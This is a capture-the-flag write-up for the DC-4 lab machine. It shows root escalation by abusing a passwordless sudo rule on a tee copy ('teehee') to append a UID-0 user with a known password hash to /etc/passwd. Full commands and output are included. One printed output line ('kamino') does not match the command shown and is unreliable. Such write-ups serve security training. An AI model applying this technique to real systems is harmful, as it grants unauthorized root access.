 ```yaml
---
layout: default
title: Tee
parent: Sudo
nav_order: 3
---
```


# Tee(hee)

---

## Check Sudo Permissions

```bash
charles@dc-4:/home/jim$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee

```

## Exploit Sudo Permissions on /usr/bin/teehee

According to GTFOBins we can exploit _tee_ which we can check to see if _teehee_ is the same binary.

![gtfobins](../../../../assets/images/ctfs/proving_grounds/dc_4/gtfobins.png)

```bash
charles@dc-4:/home/jim$ echo "evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash" | sudo /usr/bin/teehee -a /etc/passwd
kamino:$/UTMXpPC/m1P.t9l.:0:0:kamino:/home/kamino:/bin/bash

```

Checking _/etc/passwd_ we have added the _evil_ user with root privileges.

```bash
charles@dc-4:/home/jim$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
nginx:x:107:111:nginx user,,,:/nonexistent:/bin/false
charles:x:1001:1001:Charles,,,:/home/charles:/bin/bash
jim:x:1002:1002:Jim,,,:/home/jim:/bin/bash
sam:x:1003:1003:Sam,,,:/home/sam:/bin/bash
Debian-exim:x:108:112::/var/spool/exim4:/bin/false
evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash

```

We can switch to the Evil user and gain a shell with root privileges.

```bash
charles@dc-4:/home/jim$ su evil
Password:
root@dc-4:/home/jim# id
uid=0(root) gid=0(root) groups=0(root)

```
